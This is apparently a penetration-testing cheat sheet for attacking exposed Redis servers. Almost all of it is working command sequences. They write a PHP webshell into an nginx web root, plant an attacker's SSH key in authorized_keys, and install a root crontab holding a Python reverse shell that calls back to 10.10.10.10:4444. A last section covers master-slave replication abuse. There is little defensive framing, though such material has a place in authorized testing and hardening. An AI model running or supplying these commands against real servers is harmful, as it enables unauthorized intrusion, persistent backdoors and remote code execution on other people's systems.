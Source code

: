 # Redis

## Webshell

You must know the path of the Web site folder:

```
root@machine:~# redis-cli -h 10.10.10.10
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

## SSH

1. Generate a ssh public-private key pair on your pc: ssh-keygen -t rsa
2. Write the public key to a file : (echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
3. Import the file into redis : cat foo.txt | redis-cli -h 10.85.0.52 -x set givshellplox
4. Save the public key to the authorized_keys file on redis server:

```
root@machine:~# redis-cli -h 10.10.10.10
10.85.0.52:6379> config set dir /home/user/.ssh/
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```


## Reverse shell Crontab

```
root@machine:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.10.10\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```

The last example is for Ubuntu, for Centos, the above command should be: redis-cli -h 10.85.0.52 config set dir /var/spool/cron/

## Master-Slave Module

Make our redis server master in the cluster. Make vuln server our slave.

```
redis-cli -h 10.10.10.10 -p 6379
slaveof 10.85.0.51 6379
```

```
redis-cli -h 10.10.10.11 -p 6379
set mykey hello
set mykey2 helloworld
```
